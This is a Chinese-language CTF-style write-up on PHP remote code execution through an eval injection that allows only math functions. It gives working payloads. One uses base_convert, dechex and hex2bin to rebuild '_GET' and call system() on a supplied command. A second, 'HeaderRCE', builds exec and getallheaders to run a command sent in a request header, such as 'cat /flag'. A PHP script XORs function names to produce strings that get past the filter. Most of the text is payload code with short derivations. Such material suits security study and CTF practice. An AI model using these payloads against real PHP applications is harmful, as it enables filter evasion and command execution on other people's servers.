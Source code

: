 

scandir() 函数：返回指定目录中的文件和目录的数组。
base_convert() 函数：在任意进制之间转换数字。
dechex() 函数：把十进制转换为十六进制。
hex2bin() 函数：把十六进制值的字符串转换为 ASCII 字符。
var_dump() ：函数用于输出变量的相关信息。
readfile() 函数：输出一个文件。该函数读入一个文件并写入到输出缓冲。若成功，则返回从文件中读入的字节数。若失败，则返回 false。您可以通过 @readfile() 形式调用该函数，来隐藏错误信息。
语法：readfile(filename,include_path,context)

### 数学函数利用

```
/index.php?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=<command>
```

**分析**

```
base_convert(37907361743,10,36) => "hex2bin"
dechex(1598506324) => "5f474554"
$pi=hex2bin("5f474554") => $pi="_GET"   //hex2bin将一串16进制数转换为二进制字符串($$pi){pi}(($$pi){abs}) => ($_GET){pi}(($_GET){abs}) //{}可以代替[]
```



### HeaderRCE

> getallheaders — 获取全部 HTTP 请求头信息

![](https://raw.githubusercontent.com/npfs06/Images/main/img/buu56-2.jpg)

```
/index.php?c=$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1})

然后抓包在请求头中添加 1：cat /flag
```

分析

```
base_convert(696468,10,36) => "exec"
$pi(8768397090111664438,10,30) => "getallheaders"
exec(getallheaders(){1})
//操作xx和yy，中间用逗号隔开，echo都能输出
echo xx,yy
```



### 异或

```php
<?php
$payload = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin' , 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
for($k=1;$k<=sizeof($payload);$k++){
    for($i = 0;$i < 9; $i++){
        for($j = 0;$j <=9;$j++){
            $exp = $payload[$k] ^ $i.$j;
            echo($payload[$k]."^$i$j"."==>$exp");
            echo "       ";
        }
    }
}
```